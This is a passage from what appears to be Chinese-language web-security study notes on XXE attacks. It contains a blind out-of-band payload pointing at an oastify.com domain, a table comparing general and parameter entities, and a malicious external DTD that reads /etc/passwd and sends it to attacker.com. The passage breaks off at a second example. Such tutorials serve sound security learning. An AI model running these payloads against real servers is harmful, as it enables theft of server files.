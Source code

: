 ```
<!DOCTYPE stockCheck [  
  <!ENTITY xxe SYSTEM "http://ayct3c5dmrt6dfg1xtjc87rydpji7avz.oastify.com">  
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

引用的 SYSTEM 实体指向的是你自己控制的域名（Burp Collaborator、ceye.io、oastify.com 等）；&xxe; 被嵌入到正常 XML 中，如果服务端解析了这个 XML，就会尝试访问那个 URL。

### 4. 实体参数 | DTD | Blind XXE

#### 一、普通参数和实体参数的区别

| **特性**         | **普通实体（General Entity）**                            | **参数实体（Parameter Entity）**                             |
| :--------------- | :-------------------------------------------------------- | :----------------------------------------------------------- |
| **定义语法**     | `<!ENTITY name "value">` 或 `<!ENTITY name SYSTEM "URI">` | `<!ENTITY % name "value">` 或 `<!ENTITY % name SYSTEM "URI">` |
| **引用方式**     | 在XML文档中用 `&name;` 引用                               | 仅在DTD内部用 `%name;` 引用                                  |
| **作用域**       | 全局（可在XML文档中任意位置使用）                         | 局部（仅在DTD内部生效）                                      |
| **动态拼接能力** | ❌ 静态定义，无法嵌套其他实体                              | ✅ 支持嵌套其他实体，动态构造Payload                          |
| **盲注XXE支持**  | ❌ 无法直接用于无回显场景                                  | ✅ 是盲注XXE的核心技术                                        |

普通参数Blind XXE，只能判断存不存在，不能外带数据。

#### 二、实体参数的优势 | 无回显能外带数据

**(1) 盲注XXE（无回显数据外带）**

- **问题**：当服务器不返回文件内容（如仅返回“成功”或“错误”）时，普通实体无法直接泄露数据。

- **解决方案**：通过参数实体+外部DTD外带数据到攻击者服务器。
  **示例**：

  ```
  <!-- 攻击者托管的恶意DTD（exploit.dtd） -->
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?leak=%file;'>">
  %oob;
  %exfil;
  ```

  **流程**：

  1. 参数实体 `%file` 读取文件内容。
  2. 参数实体 `%oob` 动态构造一个外带请求（`%exfil`）。
  3. 最终触发HTTP请求，将数据发送到攻击者服务器。

**(2) 绕过XML解析器的限制**

- **问题**：某些XML解析器（如Java的`DocumentBuilderFactory`）禁止在**内部DTD**中嵌套普通实体或直接引用外部实体。

- **解决方案**：将攻击逻辑移到**外部DTD**中，通过参数实体绕过限制。
  **示例**：
